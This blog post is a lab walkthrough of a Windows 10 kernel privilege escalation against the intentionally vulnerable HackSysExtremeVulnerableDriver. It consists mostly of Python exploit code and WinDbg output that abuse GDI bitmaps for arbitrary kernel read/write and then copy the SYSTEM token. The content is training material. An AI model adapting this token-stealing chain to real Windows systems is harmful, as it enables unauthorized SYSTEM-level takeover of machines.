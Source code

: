 ```yaml
---
layout:		post
title:		HackSysExtremeVulnerableDriver GDI Bitmap Abuse
author:		wooy0ung
tags:		hevd
category:	exploit
---
```


>[Analysis Environment]  
>guest machine: Windows 10 1511 Feb 2016  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Make sure our arbitrary write still works as expected on Win 10.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*8 + "B"*8
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)
```

Well, I got the feedback, it work fine!
```
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x0000000002090E18
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere->What: 0x4141414141414141
[+] UserWriteWhatWhere->Where: 0x4242424242424242
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```


## 0x002 How to Exploit it?

Take it easy~ 

Now, I will create a Bitmap objects, and try to find where it is.
```
HBITMAP CreateBitmap（
 _In_ int nWidth，
 _In_ int nHeight，
 _In_ UINT cPlanes，
 _In_ UINT cBitsPerPel，
 _In_ const VOID * lpvBits
);
```

Execute this script, the process will be hung up.
```
import sys,time
from ctypes import *

kernel32 = windll.kernel32
gdi32 = windll.gdi32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
	
bmp = gdi32.CreateBitmap(0x64,0x64,1,32)
print "[+] Bitmap objects Addr: {0}".format(hex(bmp))

kernel32.DebugBreak()
kernel32.DebugBreak()

while True:
    time.sleep(60*60*24)
```

The handle is printed.
```
C:\Users\wooy0ung>python C:\Users\wooy0ung\Desktop\poc.py
[+] Bitmap objects Addr: 0x20050b46
```

Try to find out the "GdiSharedHandleTable" step by step.
```
kd> !process 0 0 python.exe
PROCESS ffffe00058481840
    SessionId: 1  Cid: 0584    Peb: 002ad000  ParentCid: 02f8
    DirBase: 42277000  ObjectTable: ffffc000e4cf6ac0  HandleCount: <Data Not Accessible>
    Image: python.exe

kd> .process ffffe00058481840
Implicit process is now ffffe000`58481840
WARNING: .cache forcedecodeuser is not enabled
kd> .context
User-mode page directory base is 42277000
kd> r $peb
$peb=00000000002ad000
kd> dt nt!_PEB 00000000002ad000 GdiSharedHandleTable
   +0x0f8 GdiSharedHandleTable : 0x00000000`00b90000 Void
```

GdiSharedHandleTable is a pointer array, we access the array by last two bytes of bitmap handles in order[GdiSharedHandleTable + (handle & 0xffff) * (x64:0x18,x86:0x10]
```
kd> dt nt!_PEB 00000000002ad000 GdiSharedHandleTable
   +0x0f8 GdiSharedHandleTable : 0x00000000`00b90000 Void
kd> dq 0x00000000`00b90000 + (0x6105104c & 0xffff)*0x18 L3
00000000`00ba8720  fffff901`44895000 40056105`00000584
00000000`00ba8730  00000000`00000000
```
Addr of the Bitmap which I create just now may be 0xfffff90144895000 while the PID is 1412(0x584)

We can verify the Addr by ProcessHacker.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x001.png)

When we create a Bitmap object, SURFACE OBJECT will be created, including BASEOBJECT、SURFOBJECT and pvScan0 which belongs to the SURFOBJECT pointing to the Pixel Data.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x002.png)
```
typedef struct {
 BASEOBJECT64   BaseObject;
 SURFOBJ64      SurfObj; 
 .......
} SURFACE64

typedef struct {
 ULONG64    hHmgr;
 ULONG32    ulShareCount;
 WORD       cExclusiveLock;
 WORD       BaseFlags;
 ULONG64    Tid;
} BASEOBJECT64;

typedef struct {
 ULONG64    dhsurf;
 ULONG64    hsurf;
 ULONG64    dhpdev;
 ULONG64    hdev;
 SIZEL      sizlBitmap;
 ULONG64    cjBits;
 ULONG64    pvBits;
 ULONG64    pvScan0;
 ULONG32    lDelta;
 ULONG32    iUniq;
 ULONG32    iBitmapFormat;
 USHORT     iType;
 USHORT     fjBitmap;
} SURFOBJ64
```

Declare two Bitmap objects(hManager, hWorker). Set hManager's pvScan0 to the Addr of hWorker's pvScan0. Well, we may use the ArbitratyOverite vulnerability.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x003.png)

But first, we should get GdiSharedHandleTable Addr
```
pbi = PROCESS_BASIC_INFORMATION()
ntdll.NtQueryInformationProcess.argtypes = (HANDLE, UINT, c_void_p, ULONG, POINTER(ULONG))
ntdll.NtQueryInformationProcess(kernel32.GetCurrentProcess(), 0, byref(pbi), sizeof(pbi), None)
peb = pbi.PebBaseAddress.contents
gdiHandleTable = peb.GdiSharedHandleTable
print "[+] GdiSharedHandleTable : {0}".format(hex(gdiHandleTable))
```

Then I will calculate pvscan0 offset of every Bitmap objects of which I created.
```
ptr = gdiHandleTable + (hManager & 0xFFFF) * sizeof(GDICELL64())
gdicell64 = cast(ptr, POINTER(GDICELL64))
hManager_pvscan0_off = gdicell64.contents.pKernelAddress + 0x50
print "[+] hManager_pvscan0_off : {0}".format(hex(hManager_pvscan0_off))

ptr = gdiHandleTable + (hWorker & 0xFFFF) * sizeof(GDICELL64())
gdicell64 = cast(ptr, POINTER(GDICELL64))
hWorker_pvscan0_off = gdicell64.contents.pKernelAddress + 0x50
print "[+] hWorker_pvscan0_off  : {0}".format(hex(hWorker_pvscan0_off))
```

Using our arbitrary write we want to set the pvScan0 address for the "manager" bitmap to point at the pvScan0 address of the "worker" bitmap.
```
write_where = hManager_pvscan0_off
write_what_ptr = c_void_p(hWorker_pvscan0_off)
buf = struct.pack("<Q", write_what_ptr) + struct.pack("<Q", write_where)
buf_ptr = id(buf) + 0x20
buflen = len(buf)
kernel32.DeviceIoControl(hevDevice, 0x22200B, buf_ptr, buflen, None, 0,byref(c_ulong()), None)
```

Check if this is valid.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x004.png)
Success. Now, I may read and write a specific memory with GetBitmapBits and SetBitmapBits method.

PsInitialSystemProcess is a global variable containing the EPROCESS structure address of the SYSTEM process. Therefore, we can get the EPROCESS of the SYSTEM process by looking up the address in the kernel land.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x005.png)

And now, I should calculate the offset of some important property. There is a good news that we find out the SYSTEM EPROCESS Addr(0xffffe0008425d040 at this time). Let's set a breakpoint~
```
kd> dt _EPROCESS UniqueProcessId ActiveProcessLinks
ntdll!_EPROCESS
   +0x2e8 UniqueProcessId    : Ptr64 Void
   +0x2f0 ActiveProcessLinks : _LIST_ENTRY
kd> dt _EPROCESS ImageFileName Token
ntdll!_EPROCESS
   +0x358 Token         : _EX_FAST_REF
   +0x450 ImageFileName : [15] UChar
```

Clearly, I get the offset!
```
token_off = 0x358
unique_process_id_off = 0x2e8
active_process_links_off = 0x2f0
```

Next step, find CURRENT EPROCESS structure, then, copy system token to the current process.

finally, pop a system cmd.
```
...
system_token = c_ulonglong()
read_mem(SYSTEM_EPROCESS + token_off, byref(system_token), sizeof(system_token));
write_mem(CURRENT_EPROCESS + token_off, byref(system_token), sizeof(system_token));

Popen("start cmd", shell=True)
```

pwn~
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x006.png)


## 0x003 Reference

[Part 17: Kernel Exploitation -> GDI Bitmap Abuse (Win7-10 32/64bit)](http://www.fuzzysecurity.com/tutorials/expDev/21.html)  
[Window Kernel Exploit -> GDI Bitmap Abuse](http://gflow.co.kr/window-kernel-exploit-gdi-bitmap-abuse/)  
[Techwiki:Win32k/BASEOBJECT](https://www.reactos.org/wiki/Techwiki:Win32k/BASEOBJECT)  